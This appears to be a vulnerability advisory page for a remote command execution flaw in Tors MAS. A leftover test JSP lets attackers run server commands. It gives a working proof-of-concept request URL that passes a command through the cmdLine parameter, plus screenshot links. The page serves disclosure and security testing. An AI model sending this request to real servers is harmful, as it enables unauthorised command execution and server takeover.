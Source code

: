 #Tors MAS testCommandExecutor.jsp Remote Command Execution Vulnerability

## Vulnerability Description

The MAS testCommandExecutor.jsp test file has a remote command execution vulnerability. When the website operator does not delete the test file, the attacker can obtain server permissions through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Tors-MAS</span>

## Network surveying and mapping



## Vulnerability reappears

Main page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1651159019976-6d273e4e-49cc-4141-8ffd-a4618948b494.png)

Verify POC

```java
/mas/front/vod/main.do?method=newList&view=forward:/sysinfo/testCommandExecutor.jsp&cmdLine=dir&workDir=&pathEnv=&libPathEnv=
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1651194412574-f6cbf86c-77a7-4495-afad-8daa67cdc968.png)